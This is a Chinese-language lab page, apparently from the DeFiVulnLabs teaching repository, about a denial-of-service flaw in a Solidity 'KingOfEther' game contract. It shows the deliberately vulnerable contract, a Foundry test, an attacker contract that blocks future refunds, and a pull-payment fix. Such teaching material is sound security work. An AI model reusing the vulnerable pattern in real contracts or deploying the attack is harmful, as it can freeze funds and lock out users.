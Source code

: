 # 拒绝服务  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  
**名称：** 拒绝服务  
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给最后一个“国王”。   
然而，这个机制是有漏洞的。攻击者的合约（这里称为Attack合约）可以成为王者，然后使回退函数回滚或消耗超过规定的gas限制，每当KingOfEther合约试图将以太币返回给最后一个国王时，claimThrone函数就会失败。  


**修复意见：**  
使用“拉取”支付模式，防止这种情况的一种方法是使用户能够提取他们的以太币，而不是将其发送给他们。  
**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26   
**KingOfEther合约：**  
```
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  
```
// 此函数测试拒绝服务(DoS)攻击场景
function testDOS() public {
    // “Alice”和“Bob”是从以太坊虚拟机分配的地址值。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // Alice的地址调用一些prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 攻击合约被调用，用3个以太币攻击KingOfEtherContract合约
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEtherContract合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期该过程需要回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 对KingOfEther合约发起DoS攻击的攻击合约
contract Attack {
    KingOfEther kingOfEther;

    // 初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```  
**红框：在攻击漏洞后，没有人能够赢得这个游戏  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

